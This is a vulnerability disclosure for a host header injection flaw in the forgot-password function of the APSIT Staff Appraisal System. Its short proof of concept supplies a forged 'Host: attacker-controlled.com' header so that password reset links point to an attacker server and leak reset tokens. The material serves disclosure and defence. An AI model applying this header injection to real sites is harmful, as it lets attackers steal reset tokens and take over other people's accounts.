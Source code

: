 # CVE-2024-42915: Host Header Injection in Forgot Password of APSIT Staff Appraisal System

A host header injection vulnerability exists in the forgot password functionality of APSIT Staff Appraisal System. By sending a specially crafted host header in the forgot password request, it is possible to send password reset links to users which, once clicked, lead to an attacker-controlled server and thus leak the password reset token. This may allow an attacker to reset other users' passwords.

PoC: 

- We trigger the forgot password functionality for an existing user, such as `staff1@email.com`, and provide a malicious host header: `Host: attacker-controlled.com`.
- This sends a password reset email to `staff1@email.com` that contains the following:
```
You are receiving this because you (or someone else) have requested the reset of the password for your account.
Please click on the following link, or paste this into your browser to complete the process:
http://attacker-controlled.com/forgot/reset/faculty/<token> Endpoint.
If you did not request this, please ignore this email and your password will remain unchanged.
```
- Note the host being `attacker-controlled.com`.
- When `staff1` clicks the link and attempts to use the password reset token, the token is leaked to the attacker which would allow resetting `staff1's` password and taking over his account.

Discovered by Sourajeet Majumder, August 2024.
